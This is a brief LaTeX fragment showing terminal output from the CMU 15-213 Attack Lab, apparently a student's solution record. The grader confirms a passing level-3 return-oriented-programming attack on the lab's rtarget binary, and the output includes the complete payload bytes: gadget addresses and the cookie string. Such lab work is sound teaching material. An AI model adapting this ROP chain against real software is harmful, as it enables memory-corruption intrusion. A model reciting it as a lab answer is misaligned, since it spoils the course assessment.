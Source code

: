 \documentclass[12pt, a4paper, oneside]{ctexart}
\begin{document}
\begin{itemize}
\begin{lstlisting}
./rtarget -qi rtarget.l5    
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 20 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00 00 00 00
\end{lstlisting}
\end{itemize}
\end{document}
